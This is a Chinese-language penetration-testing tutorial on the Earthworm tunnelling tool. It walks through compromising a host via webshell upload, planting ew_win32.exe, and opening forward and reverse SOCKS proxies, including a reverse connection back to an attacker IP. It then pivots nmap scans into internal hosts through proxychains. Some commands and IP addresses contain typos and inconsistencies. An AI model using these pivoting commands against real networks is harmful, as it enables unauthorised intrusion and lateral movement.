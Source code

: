# 网络通信

## 穿透

### Earthworm
EW（Earthworm）是一套便携式的网络穿透工具，具有SOCKS v5服务架设和端口转发两大核心功能，可在复杂网络环境下完成网络穿透。

下载地址：https://github.com/idlefire/ew
官方网站：http://rootkiter.com/EarthWorm/

EW的指令信息如下所示：
```
-s   选择功能类型：
  共包含6种功能：      
      ssocksd：正向代理       
      rcsocks：反向代理1，流量转发       
      rssocks：反向代理2，反弹socks5       
      lcx_listen：反向代理1，流量转发       
      lcx_tran：端口转发       
      lcx_slave：端口绑定 
  -l    指定要监听的本地端口  
  -d   指定要反弹到的机器 ip 
  -e   指定要反弹到的机器端口 
  -f    指定要主动连接的机器 ip 
  -g   指定要主动连接的机器端口 
  -t    指定超时时长,默认为1000
```

#### 正向代理
假设：
- Hack  IP地址为：192.168.1.130
- Host1 为双网卡：NET1 192.168.1.128、NET2 192.16.2.130
- Host2 IP地址为：192.16.2.131

攻击方式：
- 攻击者（Hack） 首先攻击Host1服务器，并获取shell权限，然后将Host1服务器当作跳板，进而发起对Host2主机的进攻；
  - 网络文件上传，恶意文件；
  - 蚁剑远程连接，查看Host1系统为windows系统，上传ew_win32.exe可执行程序文件；
  - 在Host1主机上启动socks5服务并监听1080端口；`./ew -s ssocksd -l 9999  //在9999端口上开启socks代理，ssocksd提供正向代理功能`
  - 修改proxychains配置文件，kali系统默认文件路径为 /etc/proxychains.conf 在其中`[ProxyList]` 下增加`socks5  192.168.1.128 9999`
  - 通过代理，利用nmap扫描工具对Host2主机进行端口扫描；`prxoychains nmap -Pn -sT 192.168.2.131`

#### 反向代理
假设：
- Hack  IP地址为：192.168.1.130
- Host1 为双网卡：NET1 192.168.1.128、NET2 192.16.2.130
- Host2 IP地址为：192.16.2.131

攻击方式：
- 由于场景中目标机Host1没有公网IP，但是能访问公网。因为V1没有具体地址，无法使用正向连接，可使用反弹连接的方式代理流量。  在攻击机Hack本地启动流量转发，将来自外部1080端口的流量转发到本地8888端口，并等待目标反弹连接：`./ew -s rcsocks -l 1080 -e 9999  //将1080端口收到的代理请求转发给反连9999端口的主机`
- 在目标机Host1上启动socks5服务，并反弹到攻击机Hack的9999端口：`./ew -s rssocks -d 192.168.1.130 -e 9999  //内网跳板反弹连接到攻击机的8888端口`
- 修改proxychains配置文件，kali系统默认文件路径为 /etc/proxychains.conf, `[ProxyList] # add proxy here ... socks5  192.168.1.130 1080`
- 通过代理，利用nmap扫描工具对Host2主机进行端口扫描；
`proxychains nmap -Pn -sT 192.16.2.131 -p80,22`

#### 二级正向代理功能

连接关系：
HACK HOST —— Host1 —— Host2 —— Host3

Hack  IP地址为：192.168.1.130
Host1 为双网卡：NET1 192.168.1.128、NET2 192.16.2.130
Host2 IP地址为：192.16.2.131、NET2 10.10.3.130

攻击方式：
-  在Host1主机上启动socks5服务并监听1080端口；`./ew -s ssocksd -l 1080`
-  修改proxychains配置文件，kali系统默认文件路径为 
`/etc/proxychains.conf；`

```
[ProxyList] 
# add proxy here ... 
socks5  192.168.1.128 1080
```
- 通过proxychains执行firefox 并访问网站，进行恶意文件上传；
- 在蚁剑中添加代理，并进行远程连接
- 查看，此时获得的主机为linux系统，并在该主机（Host2）上启动socks5代理并监听9999端口：
- 在Host1主机上进行流量转发，Host1监听1082端口，并反向连接Host2主机，将Host1的1082端口与Host2主机的9999端口进行绑定；
- 修改proxychains配置文件，kali系统默认文件路径为 /etc/proxychains.conf；
```
[ProxyList] 
# add proxy here ... 
socks5  192.168.1.128 1082
```
- 通过代理，利用nmap扫描工具对Host3主机进行端口扫描；

#### 二级反向代理功能
https://mp.weixin.qq.com/s/dZekVChahCpG3QjM00FLuQ